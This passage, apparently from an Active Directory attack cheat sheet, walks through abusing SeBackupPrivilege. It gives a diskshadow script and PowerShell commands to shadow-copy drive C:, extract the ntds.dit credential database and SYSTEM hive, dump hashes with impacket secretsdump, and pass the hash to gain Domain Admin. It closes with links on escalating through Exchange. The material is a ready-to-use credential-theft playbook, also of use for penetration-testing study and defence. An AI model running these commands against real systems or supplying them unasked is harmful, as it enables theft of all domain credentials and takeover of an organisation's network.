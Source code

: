 ```text
#Create a .txt file that will contain the shadow copy process script
Script ->{
set context persistent nowriters  
set metadata c:\windows\system32\spool\drivers\color\example.cab  
set verbose on  
begin backup  
add volume c: alias mydrive  
 
create  
  
expose %mydrive% w:  
end backup  
}

#Execute diskshadow with our script as parameter
diskshadow /s script.txt
```

1. Next we need to access the shadow copy, we may have the SeBackupPrivilege but we cant just simply copy-paste ntds.dit, we need to mimic a backup software and use Win32 API calls to copy it on an accessible folder. For this we are going to use [this](https://github.com/giuliano108/SeBackupPrivilege) amazing repo:

```text
#Importing both dlls from the repo using powershell
Import-Module .\SeBackupPrivilegeCmdLets.dll
Import-Module .\SeBackupPrivilegeUtils.dll
  
#Checking if the SeBackupPrivilege is enabled
Get-SeBackupPrivilege
  
#If it isn't we enable it
Set-SeBackupPrivilege
  
#Use the functionality of the dlls to copy the ntds.dit database file from the shadow copy to a location of our choice
Copy-FileSeBackupPrivilege w:\windows\NTDS\ntds.dit c:\<PathToSave>\ntds.dit -Overwrite
  
#Dump the SYSTEM hive
reg save HKLM\SYSTEM c:\temp\system.hive 
```

1. Using smbclient.py from impacket or some other tool we copy ntds.dit and the SYSTEM hive on our local machine.
2. Use secretsdump.py from impacket and dump the hashes.
3. Use psexec or another tool of your choice to PTH and get Domain Admin access.

### Abusing Exchange

* [Abusing Exchange one Api call from DA](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/)
* [CVE-2020-0688](https://www.zerodayinitiative.com/blog/2020/2/24/cve-2020-0688-remote-code-execution-on-microsoft-exchange-server-through-fixed-cryptographic-keys)
* [PrivExchange](https://github.com/dirkjanm/PrivExchange) Exchange your privileges for Domain Admin privs by abusing Exchange
